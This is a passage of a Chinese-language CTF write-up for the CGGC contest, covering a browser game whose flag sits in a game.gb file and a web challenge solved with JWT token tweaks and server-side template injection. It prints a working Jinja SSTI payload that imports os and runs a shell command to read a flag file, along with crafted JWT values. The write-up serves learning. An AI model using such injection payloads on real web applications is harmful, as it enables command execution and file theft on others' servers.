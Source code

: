 Flag: `CGGC{J00_sh4ll_n07_sH1P_S3cR37S_70_cuS70M3r}`
## Space game
### Recon
這一題因為是賽後才寫WP，所以沒有甚麼太詳細的資訊可以記錄，不過這一題的確很misc，但通靈的方向屢屢受挫

1. 首先題目給予一個網頁型的小遊戲(算是類似七八零年代的那種飛船打外星人的那種)，然後過關的條件是要至少活到最後並且打死30個以上的敵人，但這其實根本就和解題沒關係
2. 如果從動態看，可以看到他import一個檔案(game.gb)，misc的地方在於他把flag藏在這個檔案中，所以其實和遊戲一點關係都沒有(心累啊!!!!!)
### Exploit
![圖片](https://hackmd.io/_uploads/HJSpjdKrT.png)
如果實際去看他的binary，會發現有蠻多個flag，但學長測試下來正確的是`CGGC{Y0U_WIN!!123}`

Flag: `CGGC{Y0U_WIN!!123}`
## Bossti
### Background
JWT(maybe??)
SSTI
### Source code

### Recon
這一題也是搞心態，一開始以為他是和jwt有關的題目，所以在第一天打的時候，有嘗試過直接把jwt token改變，但卻過不了，到了第二天用一樣的token卻有不一樣的效果，不知道是不是server有問題或是作者有更新
![圖片](https://hackmd.io/_uploads/Hy-thOKSp.png)

1. admin頁面
    Payload: `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoyLCJyb2xlIjoiYWRtaW4iLCJoYWNrIjoiIn0.kmCiItAN6q9xCmrZ1uqhZZP96_pqD5RBMp1Umv0HFKM`
    ![螢幕擷取畫面 2023-12-03 121645](https://hackmd.io/_uploads/Sk6EGttST.png)
2. boss頁面
    Payload: `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoxLCJyb2xlIjoiYm9zcyIsImhhY2siOiIifQ.VhS5VSRlR_RrgIlF-gdl-s1_PVHPQCxB3s8oHgwEPJ4`
    ![圖片](https://hackmd.io/_uploads/B17DfKKSa.png)
3. 其實看了URL`http://10.99.111.109:5000/admin?data={%27user_id%27%3A+2,+%27role%27%3A+%27admin%27,+%27hack%27%3A+%27%27}`或`http://10.99.111.109:5000/boss?data={%27user_id%27%3A+1,+%27role%27%3A+%27boss%27,+%27hack%27%3A+%27%27}`才覺得應該和jwt認證沒關係，因為就算換到一個無痕頁面也一樣可以看得到，但重點是boss的頁面有給一個疑似是SSTI的提示(7\*7=49經典的payload)，所以剩下的事情就是SSTI payload瘋狂輸出拿flag
    
### Exploit - SSTI
Payload: `/boss?data={%27user_id%27%3A+1,+%27role%27%3A+%27boss%27,+%27hack%27%3A+%27{{self.__init__.__globals__.__builtins__.__import__("os").popen("cat%20Flag.txt").read()}}%27}`
![圖片](https://hackmd.io/_uploads/Byxfw7KYSa.png)

Flag: `CGGC{"S$T1_V3RY_EZ_2_Pwn3D_C0ngr4t$"}`